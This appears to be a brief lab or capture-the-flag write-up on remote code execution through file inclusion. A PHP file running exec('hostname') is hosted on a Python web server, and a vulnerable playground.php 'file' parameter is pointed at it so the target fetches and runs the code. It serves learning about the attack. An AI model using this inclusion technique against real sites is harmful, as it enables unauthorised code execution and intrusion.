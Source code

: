 RCE LAB # PLAYGROUND

created a file cmd.txt 
```
<?php 
    print exec('hostname')
?>
```

Then serve it as python server 
![http](./media/5-http.png)


Then access it in the url like this   
`http://10.10.70.133/playground.php?file=http://10.10.210.23:8080/cmd.txt`
![http](./media/5-rce.png)
